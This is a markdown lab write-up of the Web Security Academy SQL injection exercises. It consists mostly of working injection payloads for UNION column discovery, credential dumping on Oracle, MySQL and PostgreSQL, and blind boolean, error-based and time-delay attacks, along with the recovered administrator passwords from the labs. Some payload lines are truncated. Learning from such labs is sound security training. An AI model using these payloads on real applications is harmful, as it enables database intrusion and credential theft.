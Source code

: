 # SQL Injections

Solutions for SQL Injections 

## Retrieving hidden data

```python
https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Lifestyle'+OR+1=1--
```

## Subverting application logic

```python
batman'--
```

## Retrieving data from other database tables

### Finding number of columns for union injection

this errors out

```python
https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+null--

Result 
Error status code - 500 Internal Server Error

https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+null,null--

Result 
Error status code - 500 Internal Server Error

https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+null,null,null--

Result 
Web page appers like normal so there are 3 columns in this sql query 

```

so we keep increasing null's till we don't get an error we are using null instead of values because null is valid characters in every major database which will not error out when data type of the data is incorrect

### Finding columns with string data type in all three columns

we will fuzz and find a column to get a valid column that can give us a place to retrieve data from the app 

```python
https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+'lol',null,null--

Result 
Error status code - 500 Internal Server Error

https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+null,'lol',null--

https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+null,'lol','lol'--

Result  
Web page appers like normal so 2 & 3 columns in this sql query can print strings

```

## Using an SQL injection UNION attack to retrieve passwords and users from database

We can take data of username and password from database with this Query 

```python
https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Pets'+UNION+SELECT+username,password+FROM+users--

result
administrator azyikm320mdsf903

```

### Getting many columns from database by using just one union column with concatination

when only one column have string data type we can not use above technique there are than two ways we can either take out data one at a time or we can use concatenation below example we used oracle DB's concatenation method you can look for more syntax for other db's at this link

[SQL injection cheat sheet | Web Security Academy](https://portswigger.net/web-security/sql-injection/cheat-sheet)

```python
https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+null,username+||+'~'+||+password+FROM+users--

Result
wiener~griffin
administrator~azyikm320mdsf903
carlos~meowlol
```

# Examining the database

## Getting DB's version in different database's

### SQL injection attack, querying the database type and version on Oracle

```python
https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+BANNER,null+FROM+v$version--
```

### SQL injection attack, querying the database type and version on MySQL and Microsoft

```python
?category=Lifestyle'+UNION+SELECT+null,@@version--+
```

### SQL injection attack, listing the database contents on non-Oracle databases

```python
?category=Gifts%27+UNION+SELECT+version(),null--+
PostgreSQL 11.2 (Debian 11.2-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit

?category=Gifts%27+UNION+SELECT+TABLE_SCHEMA,TABLE_NAME+FROM+information_schema.tables--+
public / users_xsxvki

?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name=%27users_xsxvki%27--+
username_difdky
password_gjwzbs

?category=Gifts%27+UNION+SELECT+username_difdky,password_gjwzbs+FROM+users_xsxvki--+
administrator / niuv95
```

### **SQL injection attack, listing the database contents on Oracle**

```
https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286
?category=Gifts%27+UNION+SELECT+null,TABLE_NAME+FROM+all_tables--
USERS_TUEJNQ

https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2094.htm
?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+all_tab_columns+WHERE+TABLE_NAME=%27USERS_TUEJNQ%27--
USERNAME_GIBQLT
PASSWORD_EZJBQY

?category=Gifts%27+UNION+SELECT+USERNAME_GIBQLT,PASSWORD_EZJBQY+FROM+USERS_TUEJNQ--+
administrator / lpm52k

```

# **Blind SQL injection vulnerabilities**

## **Blind SQL injection with conditional responses**

Determine password length:

```
TrackingId=a'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+LENGTH(passwor
```

use the script in this repo i created to retrieve the password of administrator user or you can use burp intruder with a cluster bomb see how to do it here

[vernjan/web-security-academy](https://github.com/vernjan/web-security-academy/blob/master/SQLi.md)

```python
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='a'--;
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='b'--;

TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,2,1)='a'--;
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,2,1)='c'--;
```

## **Blind SQL injection with conditional errors**

Determine password length:

```
TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+length(password)>6)+T
```

use the script in this repo i created to retrieve the password of administrator user or you can use burp intruder with a cluster bomb 

```python
TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,1,1)='a')+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;

TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,1,1)='b')+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;

TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,1,1)='c')+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;
```

### **Blind SQL injection with time delays**

```
TrackingId=x'||pg_sleep(10)--
```

### **Blind SQL injection with time delays and information retrieval**

Determine password length:

```
TrackingId=a'%3bselect+case+when+(username='administrator'+and+length(password)=6)+then+pg_sle
```

use the script in this repo i created to retrieve the password of administrator user or you can use burp intruder with a cluster bomb 

```python
TrackingId=a'%3bselect+case+when+(username='administrator'+and+substring(password,1,1)='a')+then+pg_sleep(10)+else+null+end+from+users--;

TrackingId=a'%3bselect+case+when+(username='administrator'+and+substring(password,1,1)='b')+then+pg_sleep(10)+else+null+end+from+users--;

TrackingId=a'%3bselect+case+when+(username='administrator'+and+substring(password,1,1)='c')+then+pg_sleep(10)+else+null+end+from+users--;

TrackingId=a'%3bselect+case+when+(username='administrator'+and+substring(password,1,1)='d')+then+pg_sleep(10)+else+null+end+from+users--;
```

### Note:- some of the examples here are taken from this repo because when i was going through the lab i forgot to document the results and queries

[vernjan/web-security-academy](https://github.com/vernjan/web-security-academy/blob/master/SQLi.md)